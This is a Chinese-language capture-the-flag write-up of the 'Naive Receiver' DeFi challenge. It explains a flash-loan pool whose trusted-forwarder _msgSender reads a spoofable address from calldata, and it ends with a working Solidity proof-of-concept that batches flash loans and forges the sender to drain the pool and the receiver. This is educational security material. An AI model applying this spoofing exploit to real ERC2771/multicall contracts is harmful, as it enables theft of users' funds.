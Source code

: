 # Naive Receiver (24/08/31)

## 题目介绍

> **# 天真的接收器**
>
> **有一个余额为 1000 WETH 的资金池提供闪电贷款。其固定费用为 1 WETH。该池通过与无权限转发器合约集成，支持元交易。**
>
> **一位用户部署了一个余额为 10 WETH 的样本合约。看起来它可以执行 WETH 的闪电贷款。**
>
> **所有资金都有风险！从用户和池中解救所有 WETH，并将其存入指定的恢复账户。**

## 合约分析

一共有三个合约文件一个是池子合约提闪电贷功能，一个是转发器合约，还有接收者合约。下面这个是闪电贷的合约，

我们可以看见他的四个参数第一接收者，第二是token，第三数量，第四是data，这个data的话在这个函数里面是没有任何作用的。

首先验证这个token是不是weth，然后把资金转给接收者。接收者必须实现他的onfalshloan的一个接口，最后还款加上我们的手续费。

​    `    deposits[feeReceiver] += FIXED_FEE;`费用者加上所有的费用。

``` solidity
   function flashLoan(IERC3156FlashBorrower receiver, address token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (token != address(weth)) revert UnsupportedCurrency();

        // Transfer WETH and handle control to receiver
        weth.transfer(address(receiver), amount);
        totalDeposits -= amount;

        if (receiver.onFlashLoan(msg.sender, address(weth), amount, FIXED_FEE, data) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        uint256 amountWithFee = amount + FIXED_FEE;
        weth.transferFrom(address(receiver), address(this), amountWithFee);
        totalDeposits += amountWithFee;

        deposits[feeReceiver] += FIXED_FEE;

        return true;
    }
```

我们可以先看一下初始化环境的一些配置，他有一个玩家，一个转发器还有一个pool，注意他的构造函数传入的`feeReceiver`是我们的部署者，trustedForwarder的地址是forwarder。

```solidity
    function setUp() public {
        //玩家
        (player, playerPk) = makeAddrAndKey("player");
        startHoax(deployer);

        //token
        weth = new WETH();

        //转发器
        forwarder = new BasicForwarder();

        //池子构造参数存入1000个eth
        pool = new NaiveReceiverPool{value: WETH_IN_POOL}(address(forwarder), payable(weth), deployer);

        //接收者
        receiver = new FlashLoanReceiver(address(pool));
        weth.deposit{value: WETH_IN_RECEIVER}();
        //接收者10个weth。
        weth.transfer(address(receiver), WETH_IN_RECEIVER);

        vm.stopPrank();
    }
```

整个合约我们其实能够利用的地方就是withdraw函数，他会从msgsender这个函数里面去取msg.data的后面20个字节。这个实际上是之前发生过的一个[任意地址欺骗攻击漏洞](https://blog.openzeppelin.com/arbitrary-address-spoofing-vulnerability-erc2771context-multicall-public-disclosure)问题。那么这个msg.sender我们可以从上面的闪电贷函数和初始化配置可以知道，msg.sender一定要是`feeReceiver`接收者就是部署者因为部署者最开始存入了1000个eth。并且费用接收者也是这个地址每次调用闪电贷函数结束的时候都会收到到手续费1个以太币。

```solidity
  function withdraw(uint256 amount, address payable receiver) external {
        // 重点msgsender();
        deposits[_msgSender()] -= amount;
        totalDeposits -= amount;

        // Transfer ETH to designated receiver
        weth.transfer(receiver, amount);
    }

    function deposit() external payable {
        _deposit(msg.value);
    }

    function _deposit(uint256 amount) private {
        weth.deposit{value: amount}();

        deposits[_msgSender()] += amount;
        totalDeposits += amount;
    }

    function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        //来源是信任地址，msgdata长度大于20.取最后20字节地址返回。
            return address(bytes20(msg.data[msg.data.length - 20:]));
        } else {
            return super._msgSender();
        }
    }
```

## 解题过程

我们只需要通过multicall去批量调用10次闪电贷让接收者合约的10个eth作为手续费金额累计添加到我们的部署者地址余额上面。和一次取钱的操作就可以完成攻击。我们可以看到最后验证通过的要求是recovery地址拥有所有的资金。所以取钱的时候目的地址指定到recovery地址即可。
` assertEq(weth.balanceOf(recovery), *WETH_IN_POOL* **+** *WETH_IN_RECEIVER*, "Not enough WETH in recovery account");`

因为上面的转发器任意地址欺骗的漏洞。`    return address(bytes20(**msg.data**[**msg.data**.length **-** *20***:**]))`取msg.data的最后20个字节的地址，就会取到我们下面这个已经构造的data的最后20个字节地址就是我们部署者的地址。部署者地址在构造的时候存入了1000ether，加上接收者的10 ether手续费。最后总共有1010ether会被转到recovery地址。

> 0x00f714ce000000000000000000000000000000000000000000000036c090d0ca6888000000000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea000000000000000000000000ae0bdc4eeac5e950b67c6819b118761caaf61946

最后的poc

``````solidity
    function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory calldatas=new bytes[](11);
        //10次闪电贷
        for(uint256 i=0;i<10;i++){
            calldatas[i]=abi.encodeCall(NaiveReceiverPool.flashLoan,(receiver,address(weth),0,"0x"));
        }
        //取钱
        calldatas[10]=abi.encodePacked(abi.encodeCall(pool.withdraw,(1010 ether,payable(recovery))),
            bytes32(uint256(uint160(address(deployer)))));
        //批量调用
        bytes memory calldatass=abi.encodeCall(pool.multicall,calldatas);
        emit log_Data(calldatass);
        BasicForwarder.Request memory request = BasicForwarder.Request({
        from: player,
        target: address(pool),
        value: 0,
        gas: 300000000,
        nonce: forwarder.nonces(player),
        data: calldatass,
        deadline: block.timestamp + 1000000
        });
        bytes32 requestHash=forwarder.getDataHash(request);
        bytes32 requestHashs = keccak256(
                abi.encodePacked(
                    "\x19\x01",
                    forwarder.domainSeparator(),
                    requestHash
                )
            );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHashs);
        bytes memory signatures = abi.encodePacked(r, s, v); 
        //执行攻击
        forwarder.execute{value:0 ether }(request, signatures);
    }
``````


